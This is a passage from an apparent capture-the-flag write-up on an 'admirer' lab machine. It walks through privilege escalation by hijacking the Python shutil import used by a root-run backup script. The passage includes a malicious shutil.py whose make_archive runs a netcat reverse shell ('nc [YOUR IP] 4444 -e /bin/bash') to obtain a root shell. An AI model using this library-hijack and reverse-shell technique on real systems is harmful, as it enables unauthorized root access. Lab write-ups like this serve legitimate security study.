 ```bash
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```

Here there is a python script `backup.py` conviniently in the same folder:

```python
waldo@admirer:/opt/scripts$ cat backup.py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

Finally something we can user. Let's create our own `shutil` and thus changing the python import. Now we can make it execute anything but just to be fun let's get a root shell. I went to `/tmp` and created a folder called `exploit` and nanoed a `shutil.py` file with the following in it:

```Python
import os

def make_archive(a, b, c):
    os.system('nc [YOUR IP] 4444 -e "/bin/bash"')
```

Since we know that the original function takes 3 arguments we also need these even if we aren't using them at all.

Let's execute the `admin_tasks.sh`:
